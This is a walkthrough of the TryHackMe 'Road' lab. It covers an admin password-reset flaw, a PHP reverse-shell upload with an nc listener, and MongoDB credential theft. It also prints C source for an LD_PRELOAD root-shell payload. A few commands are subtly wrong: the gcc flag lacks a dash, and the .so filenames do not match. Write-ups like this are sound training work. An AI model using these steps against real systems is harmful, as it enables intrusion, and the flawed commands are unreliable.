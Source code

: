 ```yaml
---
layout: default
title: "TryHackMe - Road Writeup"
permalink: /writeups/tryhackme/road
---
```


![TryHackMe - Road (Medium)](images/Road.png)

**Date:** 01/12/2022\
**Author:** [acfirthh](https://github.com/acfirthh)

**Machine Name:** Road\
**Difficulty:** Medium\
**Link to Machine:** [TryHackMe - Road (Medium)](https://tryhackme.com/room/road)

## NMAP Scan
```
Starting Nmap 7.93 ( https://nmap.org ) at 2022-12-01 22:53 GMT
Nmap scan report for 10.10.84.237
Host is up (0.044s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 6bea185d8dc79e9a012cdd50c5f8c805 (ECDSA)
|_  256 ef06d7e4b165156e9462ccddf08a1a24 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Sky Couriers
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
From the NMAP scan, I saw that an Apache webserver was running on port 80. Browsing to the website, I see a page for a company named `Sky Couriers`. I poked around the webpage a bit but nothing seemed too interesting, so I decided to run a Gobuster scan.

## Gobuster Scan
```
/assets
/career.html
/index.html
/phpMyAdmin
/server-status
/v2
```
Seeing **/v2** really peaked my interest. So I browsed to **/v2** and got instantly redirected to a login page. I tested a few random credentials like `admin:admin` and `admin:password` but to no avail. There was an option to create an account, so I did, using the credentials `test@test.com:test`. 

Now I was logged into the website, I was presented with a dashboard. I searched around the dashboard for a while, looking for any upload forms or input fields that I could test for vulnerabilities, and I came across a page where I could edit my profile. Within that page, there was an upload form where I could upload a profile picture. However, it was blocked, saying that only the user **admin** can upload profile pictures, along with the email address for the admin user `admin@sky.thm`.

I search around the website a bit more, until I come across a feature that allows me to change my password for my account. This gave me an idea, what if I can exploit this feature to change the password for the admin user?

I load up BurpSuite, choose the option to intercept requests, and go back to the website to change the password for my account. When the request is intercepted, I see two parameters in the body of the POST request. One for the email of the account that the password is being changed for, and one for the new password. So, I change the email to the admin user's email `admin@sky.thm` and forward the request. I get a response of 200... it seems to have worked!

I logged out of my account and log back in to the admin's account using the new password I set for the account which happened to be **12345**.

## Foothold
Now I had access to the admin's account on the website, that also meant I had access to the feature to upload a profile picture! I decided to try upload a PHP reverse shell.

I like the use this one made by `pententmonkey` on GitHub. You can find it [here](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php).

Just remember to change the IP and Port, in the reverse shell, to your listener's IP and Port.

I then started a listener: `nc -nvlp 4444`

Uploading the PHP reverse shell as the profile picture seemed to work, It uploaded successfully but when I tried to view the profile picture to activate the reverse shell, it did not work. I tried uploading the reverse shell again but intercepted the request in BurpSuite this time to see what was happening. Looking through the reponse, I noticed a comment from one of the developers saying:
`[<-- /v2/profileimages -->]`

So, of course, I browsed to **/v2/profileimages/revshell.php** and success! I got a connection back on my listener!

Stabilizing the shell using `python3 -c 'import pty;pty.spawn("/bin/bash")'` I can see I have a shell on the machine as **www-data**. Changing directory to **/home** I see another directory of **webdeveloper**. So I change directory, again, into **/home/webdeveloper** and see a file named `user.txt` which was the first flag needed for the CTF.

## Privilege Escalation (webdeveloper)
Running `ls -lah` in the **/home/webdeveloper** directory, I see a hidden file named `.sudo_as_admin_successful`, telling me that the user **webdeveloper** is in the sudoers group. But nothing else of interest really, so I download `LinPeas` from my local machine into **/tmp** and run it. It pulls back some pretty useful information including some information about MongoDB.

MongoDB has a feature allowing anonymous login, so I try it and it works! Enumerating databases and tables, I come across a plaintext password for the user **webdeveloper**...

I log in as **webdeveloper** using: `su webdeveloper` and entering the password, Success! Now it's time to become root...

## Privilege Escalation (root)
Running `sudo -l` as the user **webdeveloper** I can see that I can run the program `/usr/bin/sky_backup_utility` and also have access to the `LD_PRELOAD` environment variable, interesting...

I then run `strings` on the `sky_backup_utility` to see if I can see what the program does, and I see that it creates a backup of everything in **/var/www/html** and stores it in **/root/.backup**, using the `tar` program.

I can exploit `tar`, using the `LD_PRELOAD` environment variable, to load my own malicious shared library to run whatever commands I want

- I created a payload file that should spawn a shell for me when it is run:
  ```
  #include <stdio.h>
  #include <stdlib.h>
  #include <unistd.h>
  
  void payload()__attribute__((constructor));
  
  void payload() {
  	unsetenv("LD_PRELOAD");
  	setuid(0);
  	setgid(0);
  	system("/bin/bash");
  }
  ```
- Saved the file as **payload.c**
- Compiled the payload into a shared object using: `gcc -fPIC shared -o payload.so payload.c`

Finally, I run the command `sudo LD_PRELOAD=exploit.so /usr/bin/sky_backup_utility` and SUCCESS! It spawns a root shell for me!

I change directory to **/root** and see the final flag needed for the CTF!
